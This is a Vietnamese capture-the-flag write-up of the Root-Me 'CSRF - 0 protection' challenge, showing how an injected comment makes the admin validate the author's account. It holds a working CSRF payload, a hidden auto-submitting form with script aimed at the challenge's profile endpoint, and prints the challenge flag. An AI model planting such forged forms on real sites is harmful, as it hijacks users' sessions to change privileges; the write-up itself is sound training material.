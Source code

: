 # Write up challenge CSRF - 0 protection

Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)<br>
</br>

<br>


Truy cập challenge ta thấy có chỗ đăng kí user. Tiến hành đăng kí 

<img src="./img/1.png" alt="normal_acc_TRAbID"/> 

<br>

Đăng kí thành công. Sau đó đăng nhập

<img src="./img/2.png" alt="normal_acc_TRAbID"/>

<img src="./img/3.png" alt="normal_acc_TRAbID"/>

<br>

Sau khi đăng nhập chúng ta sẽ thấy 4 trang: Contact | Profile | Private | Logout

- Trang Profile ta thấy có một form nhưng phải là admin mới submit được  

<img src="./img/9.png" alt="normal_acc_TRAbID"/> 

- Trang Private cho ta thấy user của ta chưa được validate, phải là admin mới có quyền validate

<img src="./img/5.png" alt="normal_acc_TRAbID"/> 

- Trang Contact có form submit được, có lẽ ta có thể khai thác ở đây!

<img src="./img/6.png" alt="normal_acc_TRAbID"/> 

Tuy nhiên khi xem xét ta thấy ô Email có thể được để trống và cũng không là tham số của HTTP request nên chính xác là ta sẽ chèn code vào ô Comment để khai thác

<img src="./img/8.png" alt="normal_acc_TRAbID"/>

<br>

Bây giờ ta sẽ tiến hành tấn công CSRF. Xem source form trang Profile. 

<img src="./img/t.png" alt="normal_acc_TRAbID"/>

Dựa trên đó ta tiến hành viết form tương tự, chỉnh sửa phù hợp với ý muốn của ta username là `q` và status là `on` và submit. Lúc này khi admin check form, ta sẽ thành công validate user với danh nghĩa admin

    <form  id="csrf-form" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="username" value="q" />
        <input type="hidden" name="status" value="on" />
        <input type="submit" value="Submit request" />
        </form>
    <script>document.getElementById("csrf-form").submit()</script>

<img src="./img/10.png" alt="normal_acc_TRAbID"/>


Đợi một lát vào lại trang Private thì có được flag:

<img src="./img/11.png" alt="normal_acc_TRAbID"/>


Submit thành công 

<img src="./img/12.png" alt="normal_acc_TRAbID"/>

<br><br>

> **Flag:** Csrf_Fr33style-L3v3l1!

